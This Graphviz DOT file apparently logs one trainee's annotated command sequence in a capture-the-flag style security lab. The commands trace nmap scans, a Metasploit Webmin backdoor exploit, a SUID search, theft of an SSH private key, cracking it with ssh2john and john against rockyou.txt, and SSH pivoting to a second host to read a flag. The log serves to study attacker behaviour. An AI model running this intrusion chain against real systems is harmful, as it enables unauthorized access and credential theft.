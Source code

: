 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 A0 M0 A1 "]
	5 [label="nmap -sC 172.18.1.5 V0 "]
	6 [label="nmap -sV 172.18.1.5 A1 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 V1 "]
	8 [label="msfconsole A2 M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin A3 M3 "]
	13 [label="searchsploit webmin V3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb A8 M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ V8 "]
	18 [label="ls A10 "]
	19 [label="./47230.rb U"]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb V8 "]
	21 [label="search 1.920 A3 "]
	22 [label="ruby 47230.rb U"]
	23 [label="./47230.rb U"]
	24 [label="nano 47230.rb U"]
	25 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	26 [label="show options A5 M5 "]
	27 [label="set LHOST=10.1.135.83 A6 M6 "]
	28 [label="show options  V5 "]
	29 [label="set LHOST=10.1.153.83 V6 "]
	30 [label="set LHOST 10.1.153.83 V6 "]
	31 [label="exploit V8 "]
	32 [label="show options V5 "]
	33 [label="set RHOSTS 172.18.1.5 V6 "]
	34 [label="exploit V8 "]
	35 [label="set RPORT 10000 V6 "]
	36 [label="exploit  V8 "]
	37 [label="show options  V5 "]
	38 [label="set LHOST 192.168.129.103 V6 "]
	39 [label="exploit  V8 "]
	40 [label="cat /root/flag A1 A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A1 A9 A11 A12 A17 "]
	43 [label="cat webmin.schema V1 "]
	44 [label="cat help A1 A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A1 A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	48 [label="cat config A1 A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema V1 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A1 A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A1 A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	59 [label="grep -rnw /root/ U"]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE A4 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A1 A9 A11 A12 A17 "]
	63 [label="grep -rnw /root/ -e '[0-9]+([^0-9]+[0-9]+){4}' U"]
	64 [label="ls A10 "]
	65 [label="y U"]
	66 [label="cd /root/ U"]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt A9 M9 A11 A12 A17 "]
	69 [label="ifconfig U"]
	70 [label="nmap 172.18.1.5/24 V0 "]
	71 [label="ps aux U"]
	72 [label="ifconfig U"]
	73 [label="nmap 172.18.1.5 V0 "]
	74 [label="nmap 172.18.1.5/24 V0 "]
	75 [label="nmap 172.18.1.1 A0 A1 "]
	76 [label="nmap 172.18.1.1/24 A0 A1 "]
	77 [label="nmap 172.18.1.5 V0 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A1 A9 A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt V9 "]
	81 [label="ls A10 "]
	82 [label="cd /root/ U"]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt V9 "]
	85 [label="ls A10 "]
	86 [label="ifconfig U"]
	87 [label="fping -ag 172.18.1.5/24 U"]
	88 [label="apt get-install nmap A0 A1 "]
	89 [label="nmap A0 A1 "]
	90 [label="ls A10 "]
	91 [label="cd /var U"]
	92 [label="ls A10 "]
	93 [label="cd webmin U"]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	96 [label="clear U"]
	97 [label="export TERM=xterm U"]
	98 [label="clear U"]
	99 [label="l U"]
	100 [label="ls A10 "]
	101 [label="cd .. U"]
	102 [label="ls A10 "]
	103 [label="cd backups U"]
	104 [label="ls A10 "]
	105 [label="cd /home U"]
	106 [label="ls A10 "]
	107 [label="cd alice U"]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	111 [label="cd .. U"]
	112 [label="ls A10 "]
	113 [label="cd bob U"]
	114 [label="ls A10 "]
	115 [label="cd .. U"]
	116 [label="cd debian U"]
	117 [label="ls A10 "]
	118 [label="cd .. U"]
	119 [label="cd eve U"]
	120 [label="ls A10 "]
	121 [label="cd .. U"]
	122 [label="cd bob U"]
	123 [label="cd /var U"]
	124 [label="ls A10 "]
	125 [label="cd local U"]
	126 [label="ls A10 "]
	127 [label="cd .. U"]
	128 [label="cd webmin U"]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap A0 A1 "]
	134 [label="ls A10 "]
	135 [label="cd .. U"]
	136 [label="ls A10 "]
	137 [label="cd backusp U"]
	138 [label="ls A10 "]
	139 [label="cd backups U"]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	142 [label="clear U"]
	143 [label="ls A10 "]
	144 [label="cd .. U"]
	145 [label="cd .. U"]
	146 [label="ls A10 "]
	147 [label="cd /home U"]
	148 [label="ls A10 "]
	149 [label="cd /home U"]
	150 [label="ls A10 "]
	151 [label="cd alice U"]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	155 [label="cd .. U"]
	156 [label="ls A10 "]
	157 [label="cd bob U"]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A1 A9 A11 A12 A17 "]
	161 [label="cd .. U"]
	162 [label="ls A10 "]
	163 [label="cd debian U"]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A1 A9 A11 A12 A17 "]
	169 [label="cd .ansible U"]
	170 [label="ls A10 "]
	171 [label="cd tmp U"]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	174 [label="cd .. U"]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	177 [label="cd .. U"]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole V2 "]
	183 [label="use unix/webapp/webmin_backdoor V4 "]
	184 [label="show options V5 "]
	185 [label="set RHOSTS 172.18.1.5 V6 "]
	186 [label="set LHOST 10.1.135.83 V6 "]
	187 [label="set RPORT 10000 V6 "]
	188 [label="cat .progle A1 A9 A11 A12 A17 "]
	189 [label="ls A10 "]
	190 [label="cd /root/ U"]
	191 [label="export TERM=xterm U"]
	192 [label="clear U"]
	193 [label="ls A10 "]
	194 [label="cd /home U"]
	195 [label="ls A10 "]
	196 [label="cd eve U"]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history A11 M11 A12 A17 "]
	200 [label="cd /var/www U"]
	201 [label="ls A10 "]
	202 [label="cd /var U"]
	203 [label="ls A10 "]
	204 [label="cd webmin U"]
	205 [label="ls A10 "]
	206 [label="cat blocked A1 A9 A11 A12 A17 "]
	207 [label="cd blocked U"]
	208 [label="cd .. U"]
	209 [label="ls A10 "]
	210 [label="cd local U"]
	211 [label="ls A10 "]
	212 [label="cd .. U"]
	213 [label="ls A10 "]
	214 [label="scp 10.1.17.4 U"]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	218 [label="cd backups U"]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	221 [label="ls A10 "]
	222 [label="cd .. U"]
	223 [label="l U"]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	226 [label="cd local U"]
	227 [label="ls A10 "]
	228 [label="cd .. U"]
	229 [label="cd log U"]
	230 [label="ls A10 "]
	231 [label="cat user.log A1 A4 A9 A11 A12 A17 "]
	232 [label="ls A10 "]
	233 [label="cd .. U"]
	234 [label="l U"]
	235 [label="ls A10 "]
	236 [label="cd lock U"]
	237 [label="l U"]
	238 [label="sls A10 "]
	239 [label="cd .. U"]
	240 [label="ls A10 "]
	241 [label="cd mail U"]
	242 [label="ls A10 "]
	243 [label="cd .. U"]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	246 [label="cd webmin U"]
	247 [label="ls A10 "]
	248 [label="cd .. U"]
	249 [label="ls A10 "]
	250 [label="ifconfig U"]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	254 [label="cd /home U"]
	255 [label="ls A10 "]
	256 [label="cd eve U"]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit V8 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 A16 M16 "]
	261 [label="cd /home/eve U"]
	262 [label="ls A10 "]
	263 [label="cd .ssh A16 "]
	264 [label="l U"]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	267 [label="cat id_rsa A12 M12 A17 "]
	268 [label="ssh2john A14 A16 "]
	269 [label="cat id_rsa V12 "]
	270 [label="touch id_rsa U"]
	271 [label="nano id_rsa U"]
	272 [label="nano id_rsa U"]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa A13 M13 A14 A16 "]
	276 [label="python ssh2john.py id_rsa > hash V13 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa V12 "]
	281 [label="john hash A14 "]
	282 [label="cd /usr/share/ U"]
	283 [label="ls A10 "]
	284 [label="cd wordlists/ U"]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt A14 M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 V16 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A1 A9 A11 A12 A17 "]
	290 [label="cd top-secret U"]
	291 [label="ls A10 "]
	292 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	256 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 261 [constraint=false]
	261 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 264 [constraint=false]
	264 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 270 [constraint=false]
	270 -> 271 [constraint=false]
	271 -> 272 [constraint=false]
	272 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 282 [constraint=false]
	282 -> 283 [constraint=false]
	283 -> 284 [constraint=false]
	284 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 290 [constraint=false]
	290 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
